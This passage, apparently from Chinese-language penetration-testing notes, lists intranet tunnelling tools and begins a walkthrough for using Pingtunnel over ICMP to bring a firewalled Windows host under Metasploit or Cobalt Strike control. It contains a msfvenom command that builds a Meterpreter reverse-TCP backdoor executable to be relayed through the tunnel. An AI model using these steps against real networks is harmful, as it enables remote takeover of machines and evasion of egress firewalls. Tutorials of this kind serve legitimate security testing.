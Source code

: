 3. 综合穿透平台：
   - Ngrok 
   - Frp 
   - SPP 
   - Nps(麻烦) 
   - EW(停更)

## ICMP隧道-防火墙-Pingtunnel&Msf上线

![内网隧道建立ICMP](img/NwSdJl1.png)

1. 环境：Win主机被防火墙限制出网，只让ICMP协议通讯

2. 解决：实现将Win主机进行CS或MSF控制便于后续安全测试

3. - 工具：[pingtunnel](https://github.com/esrrhs/pingtunnel)

   - 判断出网：

     ``` shell
     ping www.baidu.com
     ```

4. Kali生成后门：

   ``` shell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=3333 -f exe > xd.exe
   ```
